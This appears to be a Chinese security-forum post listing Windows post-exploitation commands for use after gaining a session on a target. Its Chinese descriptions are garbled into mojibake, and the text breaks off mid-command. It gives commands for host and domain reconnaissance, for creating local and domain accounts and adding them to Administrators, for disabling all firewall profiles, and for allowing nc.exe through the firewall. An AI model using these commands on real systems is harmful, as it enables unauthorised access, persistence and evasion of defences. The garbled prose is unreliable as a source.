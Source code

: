 ï»¿

* * *

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%B8%80%E3%80%81%E4%BF%A1%E6%81%AF%E5%9F%BA%E6%9C%AC%E6%94%B6%E9%9B%86)ä¸ãä¿¡æ¯åºæ¬æ¶é

å½ä¸å°æºå­è¿åä¼è¯åï¼æä»¬å¯ä»¥ä½¿ç¨ç¸å
³å½ä»¤è¿è¡ç¸åºçä¿¡æ¯æ¶é

##
[](https://bbs.pediy.com/thread-268289.htm#1.1%E6%94%B6%E9%9B%86%E5%9F%BA%E6%9C%AC%E7%9A%84%E4%BF%A1%E6%81%AF%EF%BC%9A)1.1æ¶éåºæ¬çä¿¡æ¯ï¼

Systeminfo è®¡ç®æºè¯¦ç»ä¿¡æ¯(è¡¥ä¸ä¿¡æ¯)  
Net start æå¯å¨çæå¡  
Wmic service list brief æ¥è¯¢æ¬æºæå¡ä¿¡æ¯  
Tasklist è¿ç¨åè¡¨  
Wmic startup get command,caption æ¥çå¯å¨è¯¥ç¨åºä¿¡æ¯  
Schtasks /query /fo LIST /vè®¡åä»»å¡  
Netstat -ano æ ¹æ®æ¬æºç«¯å£å¼æ¾æ åµæ¥å¤æ­æä»ä¹æå¡ãå
¶è§è²  
Query user || qwinsta æ¥çå½åå¨çº¿ç¨æ·  
Net session ååºä¼è¯  
Net share æ¥çæ¬æºçå ±äº«åè¡¨  
Wmic share get name,path,status æ¥çå ±äº«åè¡¨  
Net user æ¬å°ç¨æ·  
Net user kkkk æ¥çæ¬å°ç¨æ·ä¿¡æ¯  
Net user kent password /addæ·»å æ¬å°ç¨æ·  
Net localgroup æ¬å°ç¨æ·ç»  
Net localgroup /domain åç¨æ·ç»  
Net localgroup Administrators kent /add å°æ¬å°ç¨æ·æ·»å
å°æ¬å°ç®¡çåç»  
Net localgroup adminnstrators æ¬å°ç®¡çåç»æå  
net localgroup adminstrators /domain åç®¡çåç»æå  
Wmic useraccount get /all è·ååå ç¨æ·è¯¦ç»ä¿¡æ¯  
dsquery user æ¥çå­å¨çç¨æ·  
Net user /domain åç¨æ·ä¿¡æ¯  
Net user kkkk /domain åç¨æ·kkkkä¿¡æ¯  
Net user kent password /add /domainæ·»å åç¨æ·  
Net localgroup Administrators kent /add /domain å°åç¨æ·æ·»å
å°åç®¡çåç»  
Net localgroup Administrators /add test\kent å°åç¨æ·æ·»å
å°æ¬å°ç®¡çåç»  
Net group /domain åç¨æ·ç»ä¿¡æ¯  
Net view /domain æ¥è¯¢å  
Net view /domain:test æ¥è¯¢åå è®¡ç®æº  
Net accounts /domain æ¥è¯¢åä¸­å¯ç ç­ç¥  
Net group /domain æ¥çåå ææç¨æ·ç»  
Net group âDomain Controllersâ /domain æ¥çåæ§å¶å¨ç»  
Net group âDomain computersâ /domain æ¥çåå ææè®¡ç®æºåè¡¨  
Net group âDomain adminsâ /domain æ¥çåå ç®¡çåç¨æ·  
Net user /domain kent active:yes å¯ç¨åè´¦æ·  
Net user /domain kent active:no ç¦ç¨åè´¦æ·  
Nltest /DCLIST:test æ¥çåä¸­åæ§å¶å¨å  
Wmic useraccount get /all ç¨æ·è¯¦ç»ä¿¡æ¯  
Net group âDomain Adminsâ /domain å¯¹åºç»ä¸çè´¦æ·ä¿¡æ¯  
nltest /domain_trusts è·ååä¿¡ä»»ä¿¡æ¯  
net config workstation äºè§£æ¬æºçé ç½®ä¿¡æ¯  
Netsh firewall show config æ¥çé²ç«å¢é ç½®  
Netsh advfirewall set allprofiles state offå ³é­é²ç«å¢(windows server
2003å)  
Netsh advfirewall firewall add rule name=âpass ncâ dir=in action=allow
program=âC:\nc.exeâ å è®¸æå®ç¨åºè¿å ¥(windows server 2003å)  
Netsh advfirewall firewall add rule name=âallow ncâ dir=out action=allow